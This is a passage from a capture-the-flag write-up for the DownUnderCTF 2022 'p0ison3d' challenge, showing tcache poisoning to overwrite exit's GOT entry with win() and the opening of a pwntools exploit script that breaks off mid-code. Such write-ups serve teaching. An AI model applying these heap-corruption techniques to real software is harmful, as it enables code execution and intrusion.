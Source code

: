 As we can see, exit.got has been linked into the tcache bin's singly linked list. Upon allocating two more chunks, the second
will be the fake chunk in the GOT. 

```python
    index = 1
    chunk_D = create_note(b"D")
    chunk_E = create_note(pack(elf.sym.win))
```

Exit has been overwritten with the address of the `win()` function. The program will now call `win()` when it exits.

![Overwritten Exit](images/poison_ss4.jpg)

That's all that is needed! The flag is ours.

![Flag](images/poison_ss5.jpg)


The final exploit is below.

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./p0ison3d_patched", checksec=False)
context.binary = elf
context.terminal = "kitty"

gs = '''
continue
'''

#context.log_level = "debug"

r = remote("2022.ductf.dev", 30024)

def create_note(data):
    global index
    if len(data) > 128:
        print("Data cannot be > 128 when allocating a chunk")
        exit()
    p.sendlineafter(b":\n", b"1")
    p.sendlineafter(b"index:\n", str(index).encode())
    p.sendlineafter(b"data:\n", data)
    index += 1
    return index - 1

```